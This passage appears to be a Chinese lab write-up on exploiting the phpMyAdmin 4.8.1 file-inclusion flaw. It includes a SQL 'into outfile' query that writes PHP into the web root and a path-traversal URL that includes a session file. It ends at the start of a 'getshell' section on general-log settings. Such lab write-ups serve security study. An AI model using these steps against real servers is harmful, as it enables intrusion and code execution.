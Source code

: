 利用phpMyAdmin 4.8.1后台文件包含漏洞，获取登录phpmyadmin系统所产生的sess_sessionID文件，通常linux系统中存放路径为`/tmp/sess_[当前会话session值]`

![image-20220120222149478](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202141602.png)

写入`select '<?php phpinfo ?>' into outfile '/var/www/html/index.php' `

![image-20220120230642515](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202141743.png)

`?index.php?target=db_sql.php%253f/…/…/…/…/…/…/tmp/sess_2km6pa2qec2ci6fhmfb916mivb`

![image-20220120230841240](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202141212.png)

##### **phpmyadmin getshell实验**

查看全局日志是否开启,执行如下命令：show variables like "%general%";
